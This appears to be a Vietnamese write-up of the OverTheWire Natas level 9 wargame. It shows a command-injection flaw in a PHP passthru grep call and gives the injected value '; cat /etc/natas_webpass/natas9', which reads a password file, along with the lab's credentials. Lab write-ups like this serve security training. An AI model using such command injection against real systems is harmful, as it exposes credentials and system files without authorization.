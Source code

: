## 🕵️‍♂️ Challenge:
Username: natas9  
Password: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t  
URL: http://natas9.natas.labs.overthewire.org  

<img width="1467" height="535" alt="image" src="https://github.com/user-attachments/assets/929a4e70-ad12-4bfc-a851-a12977e1d6af" />


## 📝 Solution: 
Xem source code:  

<img width="1363" height="840" alt="image" src="https://github.com/user-attachments/assets/0ce75a45-bf1f-4134-b028-71ba05998e8f" />

Ta có thể thấy vấn đề:  
Khi chuỗi người dùng nhập vào khác rỗng, `passthru("grep -i $key dictionary.txt");` sẽ chèn trực tiếp giá trị user nhập vào shell command → lỗ hỏng command injection.  
Ta chỉ cần nhập chuỗi ***; cat /etc/natas_webpass/natas9***, khi đó lệnh sẽ trở thành:  
```bash
grep -i ; cat /etc/natas_webpass/natas9 dictionary.txt
```
Điều này sẽ thực hiện 2 lệnh grep và cat riêng biệt, từ đó có thể cat được pass.  

<img width="771" height="297" alt="image" src="https://github.com/user-attachments/assets/666b0ebf-46e9-44aa-bf3c-43df4cf4787d" />

<img width="1607" height="665" alt="image" src="https://github.com/user-attachments/assets/c1add5ea-62e5-42f3-9843-270de15ef7f6" />


>### 🎯 Password: ***t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu***
